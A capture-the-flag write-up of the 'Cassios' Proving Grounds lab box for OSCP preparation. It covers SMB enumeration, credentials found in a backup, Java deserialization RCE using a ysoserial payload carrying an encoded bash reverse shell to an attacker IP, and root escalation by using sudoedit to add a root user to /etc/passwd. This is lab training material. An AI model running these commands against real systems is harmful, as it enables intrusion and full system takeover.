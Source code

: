 ```yaml
---
title: Cassios Box on Offensive Security Proving Grounds - OSCP Preparation.
tags: [oscp medium box, PG medium box, enumeration, smb, misc, java deserialization, privilege escalation, sudo, linux]
categories: [OSCP, Proving Grounds]
comments: true
date: 2022-04-10 11:33:00
---
```


Hello,

We are going to exploit one of [OffSec Proving Grounds](https://portal.offensive-security.com/proving-grounds/play) Medium machines which called `Cassios`, you can find a PDF version of this Writeup [here](https://github.com/bing0o/Write-ups/blob/main/Cassios-PG-Practice.pdf).

## Enumeration:
### Nmap:

```bash
 ○ nmap -sC -sV -Pn -oN nmap 192.168.192.116
Nmap scan report for cassios.pg (192.168.192.116)
Host is up (0.080s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 36:cd:06:f8:11:72:6b:29:d8:d8:86:99:00:6b:1d:3a (RSA)
|   256 7d:12:27:de:dd:4e:8e:88:48:ef:e3:e0:b2:13:42:a1 (ECDSA)
|_  256 c4:db:d3:61:af:85:95:0e:59:77:c5:9e:07:0b:2f:74 (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS))
|_http-title: Landed by HTML5 UP
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
8080/tcp open  http-proxy
```

- SMB Enumeration using `smbclient`:

```bash
 ○ smbclient -N -L //cassios.pg/
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Samantha Konstan Disk      Backups and Recycler files
        IPC$            IPC       IPC Service (Samba 4.10.4)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------

```

- Exploring `Samantha Konstan` Share:

![image](/assets/img/sample/pg-cassios/smb.png)

- Download all the files from smb using `smbget`:

```bash
smbget -U anonymous -R 'smb://cassios.pg/Samantha Konstan'
```

- Running `ffuf` against the web application on port `80`: 

which gives us `backup_migrate` directory like shown below

![image](/assets/img/sample/pg-cassios/ffuf.png)

- Download and extract the data from `recycler.tar`, The User and Password can be found in `WebSecurityConfig.java` file:

```java
        @Bean
        @Override
        public UserDetailsService userDetailsService() {
                UserDetails user =
                         User.withDefaultPasswordEncoder()
                                .username("recycler")
                                .password("DoNotMessWithTheRecycler123")
                                .roles("USER")
                                .build();

                return new InMemoryUserDetailsManager(user);
        }
```

- Login to the web application on port `8080` using the Creds:
	* User: `recycler`
	* Pass: `DoNotMessWithTheRecycler123`

![image](/assets/img/sample/pg-cassios/web.png)

- By reading the source code of `src/main/java/com/industrial/recycler/DashboardController.java` (after extracting recycler.tar file), and even that I have never wrote a code in java but I noticed that the application takes data from this file `/home/samantha/backups/recycler.ser` which we have controle over it via SMB:

![image](/assets/img/sample/pg-cassios/smb2.png)

- The other thing that we can notice from the source code is the application uses `readObject()` to handle that data from `recycler.ser` file, and the `readObject()` method is vulnerable to java deserialization which leads to Remte Command Execution on the target.

### Getting RCE:

- I used a bash reverse shell [payload](https://bing0o.github.io/posts/reverse-shell-generator/), and encoded it with base64 encode.
- I used [Ysoserial](https://github.com/frohoff/ysoserial) which you can download from [here](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) to generate a payload as shown below, change the base64 data with your encoded payload, here is some [resources](https://book.hacktricks.xyz/pentesting-web/deserialization#ysoserial) that helped me for the exploit:

```bash
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjE5Mi8yOTk1NSAwPiYxCg==}|{base64,-d}|{bash,-i}" > recycler.ser
```
- upload the output file which is `recycler.ser` to the SMB server:

![image](/assets/img/sample/pg-cassios/upload.png)

- visit http://cassios.pg:8080/dashboard and hit `Check Status` button:

![image](/assets/img/sample/pg-cassios/hit.png)

- Check your Netcat Listener:

![image](/assets/img/sample/pg-cassios/rce.png)

We got RCE as user: `samantha`.

## Privilege Escalation
### Enumeration

By running `sudo -l` it shows that we can run sudoedit as root without a password:

```bash
[samantha@cassios ~]$ sudo -l
Matching Defaults entries for samantha on cassios:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="QTDIR KDEDIR"

User samantha may run the following commands on cassios:
    (root) NOPASSWD: sudoedit /home/*/*/recycler.ser
```

- I found that exploit available [here](https://www.exploit-db.com/exploits/37710) 

- Create a password for the new user: `openssl passwd -1 -salt bingo pwned` , where `bingo` is the username and `pwned` is the password

- Let's use `sudoedit` to edit `/etc/passwd` file and get root:

![image](/assets/img/sample/pg-cassios/root.png)

- The line I added to `/etc/passwd` is: `bingo:$1$bingo$3hsGN5T46YggQbdjWYZ9o0:0:0:baam:/root:/bin/bash` 

	* User: `bingo`
	* Pass: `pwned`

Happy Hacking!